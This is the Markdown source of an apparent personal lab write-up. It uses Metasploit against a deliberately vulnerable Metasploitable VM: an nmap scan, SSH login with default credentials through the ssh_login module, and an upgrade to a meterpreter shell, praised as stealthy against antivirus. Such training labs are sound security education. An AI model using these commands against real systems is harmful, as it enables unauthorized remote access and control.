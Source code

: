 ```yaml
---
title: Upgrading to Meterpreter Shell Using Metasploit
permalink: /metasploit1
parent: Pentesting
---
```

# Upgrading to Meterpreter Shell Using Metasploit
{: .no_toc }

{: .note }
Pentesting, Ethical Hacking, Kali Linux, Metasploit, Metasploitable, Virtual Machines, Networking
{: .fs-3 }

#### Contents
{: .no_toc }
- TOC
{:toc}

## Scenario
In this lab, I will establish a remote connection to a vulnerable machine using Metasploit. After gaining access to the machine, I will upgrade the limited shell to a meterpreter shell. Meterpreter operates entirely in memory, making it more stealthy and less likely to be detected by antivirus software.  It also provides a rich command set that allows for advanced post-exploitation activities. This includes commands for interacting with the file system, networking, system, and more.

## Goals & Objectives
1. Use VMWare Workstation Player to run separate instances of Kali Linux and Metasploitable, an intentionally vulnerable virtual machine.
2. Perform an nmap scan on the target machine, detecting open ports and a list of services and their versions.
3. Log in to the target machine using SSH.
4. Upgrade the limited shell to a meterpreter shell.

## Results
### 📄 Task 1: Run Kali Linux and Metasploitable

I download pre-built images for Kali Linux and Metasploitable and run them in VMWare Workstation Player.

![](/assets/images/101_71_metasploit1/step1.png)

<br>
<br>
### 📄 Task 2: Run Metasploit in Kali Linux

![](/assets/images/101_71_metasploit1/step2.png)

<br>
<br>
### 📄 Task 3: Find the IP address of the target machine 

I use ```ifconfig``` to find the IP address of the target machine: 192.168.28.128

![](/assets/images/101_71_metasploit1/step3.png)

<br>
<br>
### 📄 Task 4: Scan the target machine using db_nmap

In Metasploit, I scan the target machine using ```db_nmap -sV 192.168.28.128```. This command stores the results of an nmap scan in Metasploit’s database. This database allows me to keep track of and manage the scan results.

![](/assets/images/101_71_metasploit1/step4.png)

I notice that SSH (secure shell) is running on port 22. SSH is an encrypted network protocol used to remotely interact with an Operating System.

<br>
<br>
### 📄 Task 5: Log in to the target machine using SSH

To log in to the target machine using SSH, I run the following the commands:

```bash
use auxiliary/scanner/ssh/ssh_login
set rhosts 192.168.28.128
set rport 22
set username msfadmin
set password msfadmin
run
```

Note: msfadmin is the default username and password of the Metasploitable VM.

```use auxiliary/scanner/ssh/ssh_login``` allows me to use the ssh_login module to remotely log in to the target machine  
```set rhosts``` sets the IP address of the target machine  
```set rport``` specifies the port number  
```set username``` and ```set password``` specifies the login credentials to access the target machine

![](/assets/images/101_71_metasploit1/step5.png)

The ```sessions``` command shows active SSH sessions. Currently, the active session is a limited shell.

<br>
<br>
### 📄 Task 6: Upgrade the limited shell to a meterpreter shell

To upgrade the limited shell to a meterpreter shell, I run the following commands:

```bash
use post/multi/manage/shell_to_meterpreter 
set session 1 
run
```

```use post/multi/manage/shell_to_meterpreter``` allows me to upgrade a shell session to meterpreter shell  
```set session 1``` upgrades the SSH sessions to a meterpreter shell

![](/assets/images/101_71_metasploit1/step6.png)

Running the ```sessions``` command reveals a second session, which is the meterpreter shell.

<br>
<br>
### 📄 Task 7: Switch to the meterpreter shell

To switch to the meterpreter shell, I use the following command: ```session -i 2```.

![](/assets/images/101_71_metasploit1/step7.png)

---

<a href="#top" id="back-to-top">Back to top</a>